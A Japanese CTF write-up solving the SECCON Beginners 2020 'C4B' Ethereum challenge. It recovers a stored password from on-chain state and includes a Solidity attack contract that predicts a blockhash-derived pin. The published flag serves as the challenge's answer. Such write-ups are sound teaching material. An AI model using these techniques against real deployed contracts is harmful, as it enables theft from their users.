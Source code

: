 # SECCON Beginners CTF 2020 C4B writeup

## 問題
Are you smart?

[http://c4b.quals.beginners.seccon.jp/](http://c4b.quals.beginners.seccon.jp/)


## 解法

スマートコントラクト問は先週のSharky CTFで初めて触ったので何をすれば良いのかほとんど分からなかったが、そのwriteupを参考にしていたらなんとなく分かった。

この問題は大まかに、

1. contractを作る。
2. passwordとpinを特定する。
3. checkに特定した値を渡してsuccessをtrueにする。

という流れになっている。

まずcontractを作る。リンク先のDeployを押すだけでいいが、MetaMaskは事前に入れておく必要がある。

次にpasswordとpinを特定する。pinはblock.numberつまりblock heightでありこれは簡単に取得できるのでOK。  
passwordはcontractを作成したときのトランザクションに書いてあるはずだが、どのような形式で与えられているのか分からなかったのでソースコードを使って分かりやすいパスワードでdeployして実験した。ここでは `0xdeadbeef01234567` とした。EtherscanのTransaction Details→State Changesから確認してみると、以下のような値になっていることが確認できる。

![password_test](./img/01.png)

leading zeroを除いた先頭8バイト分がパスワードであることが分かった。  


これを踏まえて最初に作ったcontractのパスワードを確認する。
ここでは `0x93e4462a250e0b95` であることが分かる。
![password](./img/02.png)

後はpasswordとpinをcheckに渡してやればいいが、pinが頻繁に変わってしまうのでsolidityで攻撃用のcontractを作った。


```solidity
pragma solidity >= 0.5.0 < 0.7.0;

contract C4B {

  address public player;
  bytes8 password;
  bool public success;

  event CheckPassed(address indexed player);

  constructor(address _player, bytes8 _password) public {
    player = _player;
    password = _password;
    success = false;
  }

  function check(bytes8 _password, uint256 pin) public returns(bool) {
    uint256 hash = uint256(blockhash(block.number - 1));
    if (hash%1000000 == pin) {
      if (keccak256(abi.encode(password)) == keccak256(abi.encode(_password))) {
        success = true;
      }
    }
    emit CheckPassed(player);
    return success;
  }
}

contract Attack{
  C4B public target;
  constructor(address _target) public {
    target = C4B(_target);
  }
  function send(bytes8 password) public {
    uint256 hash = uint256(blockhash(block.number-1))%1000000;
    target.check(password, hash);
  }
}
```

これをRemix(スマートコントラクトのIDE)からDeployする。
![deploy\_exploit](./img/03.png)



先程入手したパスワード(`0x93e4462a250e0b95`)を入力してsendする。
![send](./img/04.png)



successがtrueになったのを確認後に元のページでSubmitすればFlagが手に入る。
![flag](./img/05.png)



Flag: `ctf4b{c4b_me4ns_c0ntract4beg1nn3rs}`



